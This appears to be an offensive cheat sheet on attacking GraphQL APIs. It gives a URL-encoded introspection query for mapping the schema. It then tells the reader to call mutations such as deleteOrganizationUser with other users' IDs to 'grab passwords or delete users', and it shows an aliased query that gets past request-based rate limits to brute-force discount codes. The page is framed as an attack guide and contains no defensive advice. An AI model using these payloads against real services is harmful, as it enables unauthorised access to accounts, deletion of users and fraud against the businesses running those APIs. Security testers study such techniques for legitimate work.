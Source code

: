 ```bash
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

Look at various queries in the site map and find interesting queries like getUser or deleteOrganizationUser and attempt to perform actions with different user IDs to grab passwords or delete users such as:

```bash
/api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
```
# Bypass Rate Limiting

Aliases allow you to bypass multiple properties with the same name restriction by naming the properties you want to return. Aliases can return multiple instances of the same type of object in one request. Aliases can brute force a GraphQL endpoint.

Some rate limiters work based on the number of requests received rather than number of operations. Since aliases are multiple queries in one message, it can bypass it. An example is checking if store discounts are valid:

```json
    #Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```
